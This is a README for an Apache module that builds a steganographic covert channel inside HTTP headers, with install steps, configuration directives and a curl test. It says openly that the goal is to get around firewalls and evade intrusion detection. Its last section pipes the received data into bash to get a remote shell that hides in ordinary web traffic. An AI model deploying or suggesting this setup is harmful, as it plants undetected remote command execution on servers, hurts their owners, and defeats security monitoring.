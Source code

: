 steg-server
===========

Description
-----------
This is the server component of the HTTP Steganography project. 

This Apache module is meant to work together with the client component of the HTTP Steganography project to allow hidden client-server communication within the already established web channel, thus removing the need to work around firewall policies and hopefully evading intrusion detection systems. 

Quick Start
-----------
Make sure the 'httpd-devel' and 'openssl-devel' packages for CentOS/RHEL or the equivalent package for your distro are installed. These packages contain the header files and the 'apxs' tool necessary to compile this project.

To compile, just 'cd' into the cloned directory and run:
```
$ apxs -c -i -Iinclude mod_steg.c utils.c packet_builder.c config.c
```

Edit your httpd configuration file, e.g. /etc/httpd/conf/httpd.conf, and add a LoadModule directive:
```
LoadModule steg_module     modules/mod_steg.so
```

Finally, configure the Steg module. These are the module-specific directives:
* **stegInputFile**: Full path to the file where recevied information will be written. Server directive (outside Directory sections).
* **stegOutputFile**: Full path to the file where response information will be read from.  Server directive (outside Directory sections).
* **stegKnockCode**: Code that will be used to recognize a steganogram.
* **stegInputMethod**: Steganography method that will be used for incoming requests. For the first prototype, only Header will be available.
* **stegOutputMethod**: Steganography method that will be used for outgoing requests. For the first prototype, only Header will be available.
* **stegShmLockfile**: Lock file for the shared memory
* **stegShmFile**: Shared memory segment
* **stegCryptEnable**: Whether to enable payload encryption. For now, only AES-CBC-128 is supported.
* **stegCryptKey**: 256-bit (32 char) key to use for encryption.
* **stegCryptIV**: 128 (16 char) inizializtion vector for AES encryption.

Keep in mind that this module is implemented as two filters, so you need to use Apache's standard **setInputFilter** and **setOutputFilter** directives.


Example configuration:
```
stegInputFile /var/steg/input
stegOutputFile /var/steg/output
stegShmLockfile /var/steg/lock
stegShmFile /var/steg/shm

<Directory "/var/www/html">
  setInputFilter StegInput
  setOutputFilter StegOutput
  stegKnockCode 098asdf234
  stegInputMethod Header Accept-Encoding
  stegOutputMethod Header X-Powered-by
  #Only for testing, it will prevent normal content from being served:
  SetHandler steg
</Directory>

```

Restart httpd:
```
$ systemctl restart httpd.service
```

Testing
-------
For a simple standalone test, you can use curl:
```
$ curl -H "Accept-Encoding: gzip, deflate, <hidden message>"
```
The format of the message is:
```
knockcode|length|payload
```

Where **knockcode** is just what you configured in Apache, **length** is a 3 byte field that indicates the length of the payload, and **payload** is any string. Example:
```
knock005hello
```
To use all the features, install the **'steg-client'** http proxy and follow its usage guide.


Remote shell
------------
If the input and output files are piped through bash, you can obtain a remote shell (together with steg-client) that communicates exclusively through the http headers of the normal web requests you make while browsing that server's web content:
```
tail -f /var/steg/input | bash 2>/var/steg/output 1>&2
```






